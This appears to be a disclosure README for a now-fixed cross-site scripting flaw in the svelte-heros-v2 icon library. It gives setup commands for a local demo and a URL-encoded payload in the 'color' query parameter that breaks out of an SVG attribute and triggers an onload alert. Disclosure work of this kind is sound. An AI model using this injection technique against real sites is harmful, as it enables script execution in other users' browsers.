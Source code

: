 # svelte-heros-v2 Vulnerbability Proof of Concept

[svelte-heros-v2](https://github.com/shinokada/svelte-heros-v2) is an easy to use heros icon library for svelte projects.
But recent days, I found a vulnerbility in the library. I reported it to the author and he fixed it. I am going to show you how I found it and how to fix it.
- [issues](https://github.com/shinokada/svelte-heros-v2/issues/15)
- [0.5.1 (fixed version)](https://github.com/shinokada/svelte-heros-v2/commit/aed5f0c03f63336e159e2239129a54d377a8eab1)

## Try it yourself

```sh
# Clone the vuln PoC
git clone https://github.com/ZoneTwelve/svelte-heros-v2-vuln-PoC.git
cd svelte-heros-v2-vuln-PoC
# change the commit version d154313cc3031b90f529528fae6fef772103ed4e
git checkout d154313cc3031b90f529528fae6fef772103ed4e
# install dependencies
npm install
# or use pnpm
pnpm install

# start the app
npm run dev

# open http://localhost:5173 
## And you will see a blue eye in the page
echo "http://localhost:5173"

# open http://localhost:5173/?color=green
## The page will show a green eye in the top of Counter component
echo "http://localhost:5173/?color=green"

# Payload: `red"/> <svg onload=alert(document.domain);> <path a="`
# Open http://localhost:5173/?color=red%22/%3E%20%3Csvg%20onload=alert(document.domain);%3E%20%3Cpath%20a=%22
## The page will show a alert box with the domain name of the page
echo "http://localhost:5173/?color=red%22/%3E%20%3Csvg%20onload=alert(document.domain);%3E%20%3Cpath%20a=%22"
```